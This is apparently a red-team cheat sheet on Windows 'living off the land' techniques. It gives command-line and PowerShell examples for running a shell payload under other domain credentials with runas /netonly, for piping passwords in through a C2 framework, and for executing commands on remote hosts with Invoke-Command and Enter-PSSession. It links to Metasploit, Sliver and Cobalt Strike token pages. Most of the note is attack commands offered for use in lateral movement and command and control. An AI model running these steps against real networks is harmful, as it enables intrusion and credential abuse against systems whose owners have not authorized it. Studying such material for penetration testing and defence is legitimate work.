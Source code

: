 # Living off the Land

## 01 - Command Prompt

### 1.1 - Netonly

This can be appropriately used for moving the active directory network laterally, and it's also part of **command and control** methods.

```
C:\> runas /netonly /user:<DOMAIN>\<username> C:\path\to\shell.exe

C:\> runas /noprofile /netonly /user:<DOMAIN>\<username> C:\path\to\shell.exe
```

If you're using a C2 framework then you pipe it through instead entering the password in a prompt.

```
C:\> cmd /c <password> | runas /netonly /user:<DOMAIN>\<username> C:\path\to\shell.exe

C:\> echo <password> | runas /netonly /user:<DOMAIN>\<username> C:\path\to\shell.exe
```

## 02 - PowerShell

Another method is using powershell to supply with the defined variables and execute with a powershell cmdlet `Start-Process`.

```powershell
PS C:\> $username = '<DOMAIN>\<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\path\to\shell.exe -NoNewWindow -Credential $credential -WorkingDirectory C:\Users\Public
```

You can also execute it remotely.

```powershell
PS C:\> $password = ConvertTo-SecureString "<password>" -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential("<username>", $password)
$computer = "<IP>"
[System.Diagnostics.Process]::Start("<Commands>", $credential.Username, $credential.Password, $computer)
```

Syntax using the `Start-Process`.

```
PS C:\> Start-Process <commands> [-NoNewWindow] -ArgumentList (<arg_1>,<arg_2>, <arg_n>) -verb RunAs
```

Or you can remotely authenticate a network shared workstation to interact even further when you need to.

```
PS C:\> Invoke-Command -ComputerName <IP> -Credential $credential -ScriptBlock { <commands> }

PS C:\> Enter-PSSession -ComputerName <IP>
```

---
## References

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Domain Privilege Escalation/Token Impersonation/C2 Frameworks/Metasploit|Metasploit: Token]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Domain Privilege Escalation/Token Impersonation/C2 Frameworks/Sliver|Sliver: Token]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Domain Privilege Escalation/Token Impersonation/C2 Frameworks/Cobalt Strike|Cobalt Strike: Token]]